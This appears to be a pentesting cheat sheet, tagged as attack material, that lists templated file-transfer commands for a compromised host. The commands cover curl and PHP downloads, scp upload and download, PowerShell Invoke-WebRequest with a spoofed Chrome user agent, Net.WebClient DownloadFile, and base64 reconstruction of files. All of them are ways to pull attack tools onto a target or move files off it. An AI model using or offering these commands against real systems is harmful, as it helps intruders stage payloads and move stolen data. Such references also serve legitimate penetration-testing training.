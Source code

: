 #plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
curl -o /tmp/<linuxOut> <TargetFileURL>
```
##  file transfers - miscellaneous - php download
#plateform/ #target/remote #port/ #protocol/ #cat/ATTACK/
```
php -r '$file = file_get_contents("<TargetFileURL>"); file_put_contents("<outFile>",$file);'
```

##  file transfers - miscellaneous - scp upload
#plateform/ #target/remote #port/ #protocol/ #cat/ATTACK/
```
scp <pathToGetFile> <user>@<ip>:<pathToOutFileWname>
```

##  file transfers - miscellaneous - scp download
#plateform/ #target/remote #port/ #protocol/ #cat/ATTACK/
```
scp <user>@<ip>:<pathToGetFile> <pathToOutFileWname>
```

## file transfers - windows - powershell using chrome User Agent download
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "Invoke-WebRequest <TargetFileURL> -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile '<windowsOut>'"
```

## file transfers - powershell b64 download
#plateform/ #target/remote #port/ #protocol/ #cat/ATTACK/
```
Linux:
md5sum <file>
cat <file> | base64 -w 0;echo

Windows:
PS C:\htb> [IO.File]::WriteAllBytes("C:\<pathWindowsOut>", [Convert]::FromBase64String("<base64String>"))`

Get-FileHash C:\<pathWindowsOut> -Algorithm md5`
```

## file transfers - windows - powershell web download
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "(New-Object Net.WebClient).DownloadFile('<TargetFileURL>','<Output File Name>')"
```
